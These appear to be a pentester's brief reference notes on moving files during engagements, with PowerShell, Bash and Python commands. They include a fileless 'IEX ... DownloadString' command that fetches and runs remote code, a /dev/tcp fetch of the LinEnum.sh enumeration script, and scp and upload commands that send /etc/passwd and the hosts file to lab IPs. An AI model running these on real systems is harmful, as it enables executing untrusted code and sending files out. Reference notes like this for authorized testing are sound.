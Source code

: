Navigation: [[Pentesting]]

---
This section will just have some very quick commands for reference. I'm not going to bother explaining how they work, nor does this cover every way to download/upload files.

HackTricks also has a useful list of [file exfiltration techniques](https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration)
# Table of Contents
1. PowerShell
2. Bash
3. Python
# PowerShell
Simple Base64 conversion:
```PowerShell
[IO.File]::WriteAllBytes("Output\File\Path", [Convert]::FromBase64String("B64String"))
```

Web File Downloads:
```PowerShell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

Fileless "Download":
```PowerShell
IEX (New-Object Net.WebClient).DownloadString("URI")
```

Here's a list of further [download commands](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

Web Upload:
```PowerShell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

# Bash
Base64 encode and decode:
```shell
cat file | base64 -w 0; echo

echo -n "B64" | base64 -d > out
```

`wget` and `curl` are two classic options as well. We can pipe curl into bash to run fileless too. 

Here's an interesting way to download files using bash 2.04 (and up) along with `/dev/tcp`:
```shell
exec 3<>/dev/tcp/server-ip/80

echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

cat <&3
```

SCP download and upload (and enabling + starting SSH):
```shell
sudo systemctl enable ssh
sudo systemctl start ssh

scp plaintext@192.168.49.128:/root/myroot.txt . 

scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

# Python
Python can be used to create a download server which is accessible through port 80:
```shell
python2.7 -m SimpleHTTPServer

python3 -m http.server
```

We can use python's [upload server](https://pypi.org/project/uploadserver/) to create a server to upload our files to.

---
Navigation: [[Pentesting]]